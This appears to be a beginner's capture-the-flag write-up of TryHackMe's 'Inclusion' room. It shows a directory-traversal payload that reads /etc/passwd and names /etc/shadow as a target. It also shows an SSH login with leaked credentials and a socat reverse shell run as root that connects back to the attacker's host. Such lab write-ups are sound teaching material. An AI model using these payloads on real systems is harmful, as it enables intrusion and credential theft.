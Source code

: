 ```yaml
---
title: Inclusion Writeup
date: 2020-03-28
description: A beginner-friendly writeup on TryHackMe's Inclusion challenge. 
tags:
  - Writeup
  - TryHackMe
  - Security
banner: ./defence-against-the-dark-arts.jpg
---
```


## Introduction

This challenge on [TryHackme.com](http://tryhackme.com) focuses on Local File Inclusion attack. Local File Inclusion is when the attacker tricks the web application into exposing or running files on the webserver. 

Room Link: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion)

## Resources used

- Nmap
- GTFObins
- Kali VM

## Writeup

### Enumeration

The first and foremost step in any attack is an enumeration. So, gather data about the services running using a **Nmap** scan. 

![Inclusion/1.png](1.png)

From the scan results, we can derive that 2 services are running:

- SSH
- HTTP

### Web Recon

Let's poke at the Webserver and see it's contents.

![Inclusion/2.png](2.png)

It seems to be a blog. Explore it and see if anything is interesting to focus on. 

### Local File Inclusion

The pages takes in a parameter to the server to display the webpage. Tampering this may disclose files in the webserver causing a LFI attack if the application does not whitelist which files can be included.

![Inclusion/3.png](3.png)

Common files to look for : 

- /etc/passwd - View usernames of all users on a system
- /etc/shadow - View hashed passwords of all users on the system
- /etc/hosts - View other devices the webserver is communicating with.

and so much more if you're clever. 

**You can combine this with Directory traversal to access the file you want.** 

    >> website.com/article?name=../../../etc/passwd 

The passwd file has been exposed. In this, we can observe the users present in the system. 

![Inclusion/4.png](4.png)

There is a user named *falconfeast.* The interesting part is that there is a comment which possibly seems like a username and password. Keep in mind, this is a very rare occasion of having the password in the comment, which I believe is deliberately has been done by the creator of the room. After all this room is to understand the basics of LFI. 

### Entering the Web Server

Let's assess the situation.

- There are a username and password available
- There is an SSH present in the webserver

So, the next step is to try logging in to the server using SSH. 

    >> ssh falconfeast@rootpassword 

![Inclusion/5.png](5.png)

After logging in the directory has a user.txt file that contains the ***user flag!*** 

Observing the placement of the user.txt, it would be safe to assume the root flag would be in /root folder.

![Inclusion/6.png](6.png)

Unfortunately, neither the privilege cannot be escalated nor the /root folder can be accessed directly. But, have a look at the command allowed for *falconfeast* using :

    >> sudo -l

![Inclusion/7.png](7.png)

It mentions that the user is allowed to run /usr/bin/socat as root with no password required. 

> Socat is a command-line based utility that establishes two bidirectional byte streams and transfers data between them.

To learn how this can be abused, check [GTFOBins](https://gtfobins.github.io/). 

> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

From that, it is confirmed that a [reverse shell](https://gtfobins.github.io/gtfobins/socat/) is possible. 

### Abusing Socat

On your machine run:

    >> socat file:`tty`,raw,echo=0 tcp-listen:12345

And on the LFI machine, run : 

    >> RHOST= <your ip address> 
    >> RPORT=12345
    >> socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane

![Inclusion/8.png](8.png)

Once you run the command on the LFI machine, the reverse shell must have been successfully created and you can access the machine as *root*. 

To confirm it, run:

    >> id  #this would print the real and effective user and group IDs.

Then move into /root folder and list out the items in it. 

![Inclusion/9.png](9.png)

The root.txt is present here with the ***root flag!** (Now you can pat yourself :p )*

---

### The Unintentional Way

There is another easy way to read the user and root flag, but I don't think it was the intended way but I would still love to share it.
The flags can be accessed directly through the URL if you are familiar with the location of the flags. 
![Inclusion/10extra.png](10extra.png)

<p align="center">
User Flag
</p>

![Inclusion/11extra.png](11extra.png)

<p align="center">
Root Flag
</p>

## Final Thoughts

This room is not only a good experience for anyone looking to learn about LFI but also introduces the concept of privilege escalation using Unix Binaries and reverse shells. 
I will be trying other rooms at TryHackMe and posting my writeups too. So watch out this space for more awesome content.

---

If you like my content, let me know on Twitter: [https://twitter.com/swsjona](https://twitter.com/swsjona)

**Further Reading** 

[What is Local File Inclusion (LFI)? | Acunetix](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

[Local File Inclusion](https://blog.tryhackme.com/lfi/)